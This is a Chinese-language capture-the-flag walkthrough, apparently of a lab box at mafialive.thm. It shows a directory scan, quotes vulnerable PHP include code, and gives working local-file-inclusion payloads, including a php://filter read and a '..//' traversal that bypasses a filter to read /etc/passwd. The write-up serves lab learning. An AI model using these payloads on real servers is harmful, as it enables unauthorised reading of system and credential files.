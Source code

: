 /flags 转向youtube一个视频，没有其他信息，应该是个兔子洞
其他文件夹没有其他信息

查看网页源代码，在```Send us a mail```里发现一个域名，把```mafialive.thm```写进host文件

```echo "10.10.228.134 mafialive.thm" >> /etc/hosts```

打开mafialive.thm发现flag1

再次爆破目录
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://mafialive.thm 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/dirsearch/reports/mafialive.thm/_21-11-01_06-52-00.txt

Error Log: /root/dirsearch/logs/errors-21-11-01_06-52-00.log

Target: http://mafialive.thm/

[06:52:01] Starting: 
[06:53:22] 200 -   59B  - /index.html                                       
[06:53:50] 200 -   34B  - /robots.txt                                                                          
[06:54:02] 200 -  286B  - /test.php   
```

打开test.php，点击网页buttom，url显示出一串路径，修改路径文件名可以访问服务器一些文件的内容，说明存在LFI漏洞


我们用php伪协议输出整个网页的源代码，payloadr如下

```
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
打印出了test.php的源代码，拿到flag2

审阅上传代码
```
<?php
 function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }

      if(isset($_GET["view"])){
      if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
              include $_GET['view'];
            }else{

    echo 'Sorry, Thats not allowed';
            }
 ?>
```

只有满足不出现```../..```和一定出现```/var/www/html/development_testing```这两个字符串的条件下，包含逻辑才会生效

我们用```//```代替```/```就可以绕过不能出现```../..```的限制，读取```/etc/passwd```payload如下

```
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//etc/passwd 
```

```